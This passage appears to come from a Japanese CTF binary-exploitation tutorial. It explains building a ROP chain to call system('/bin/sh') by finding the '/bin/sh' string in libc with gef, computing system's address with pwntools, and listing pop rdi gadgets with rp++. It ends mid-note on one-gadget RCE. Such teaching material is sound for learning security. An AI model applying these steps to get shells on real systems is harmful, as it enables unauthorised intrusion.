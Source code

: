 今回のROPでは、`system("/bin/sh")`を呼び出すことを目的とします。
そのために必要なROP gadgetは以下のようになります:

1. RDIに`/bin/sh`という文字列のアドレスを入れる
2. `system`に飛ぶ

1に関して、`/bin/sh`という文字列は大抵libcの中に落ちています:

```gef
gef> search-pattern /bin/sh
[+] Searching '/bin/sh' in whole memory
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6' (0x7f96cadbd000-0x7f96cae15000 [r--])
  0x7f96cadd8698 - 0x7f96cadd869f  ->   "/bin/sh"
[+] Searching '/\x00b\x00i\x00n\x00/\x00s\x00h\x00' in whole memory
```

よって、1のROP-chainは以下のとおりになります:

```txt
+-----------------+
 &`pop rdi`
+-----------------+
 "/bin/sh"のアドレス
+-----------------+
```

2に関しては単純で、leakしたlibcのアドレスから`system`のアドレスを計算して1のchainの下に積んでおくだけでOKです。
なお、`pwntools`では`system`のlibcbaseからの相対アドレスを勝手に調べてくれる機能があります。
よって、この計算部分は以下のように書けます:

```py
libc = ELF("./libc.so")
system = libcbase + libc.symbols["system"]
```

さて、libc内のgadgetを探すには [rp++](https://github.com/0vercl0k/rp) というツールを使うのがおすすめです。
このツールは指定したELFファイルから指定した命令長のgadgetを列挙してくれます。
例えば今回使いたい`pop rdi` gadgetは以下のように探すことができます:

```sh
$ rp++ -f ./libc-2.35.so -r1 | grep "pop rdi" | head -n5
0x125bb1: pop rdi ; call rax ; (1 found)
0x2d549: pop rdi ; jmp rax ; (1 found)
0x2dc39: pop rdi ; jmp rax ; (1 found)
0x2e2f0: pop rdi ; jmp rax ; (1 found)
0x2eadb: pop rdi ; jmp rax ; (1 found)
```

{{< alert title="gadgetの選び方について" color="info" >}}
`rp++`は、同じ働きをするgadgetを全て見つけてくれるため、そこから1つを選んで利用することになります。
この時、 **gadgetの選び方はexploitの制約を満たすようにする必要** があります。

例えば今回のchallengeでは、`readn`関数は `\n` を読み込んだ時点で入力が終了するようになっています。
そのため、選んだgadgetのアドレスに`0x0A`が含まれないようなものを選択してやる必要があります。
{{< /alert >}}

{{< alert title="onegadget RCE" color="info" >}}
CTFでpwnを解いたことがある人は、 **onegadget** というgadgetを聞いたことがあるかもしれません。
onegadgetは、libcの中に存在するgadgetの内、ただ実行するだけでシェルが取れてしまうというものです。
libc内にonegadgetが存在する場合、ROPをする必要すらなくなります。
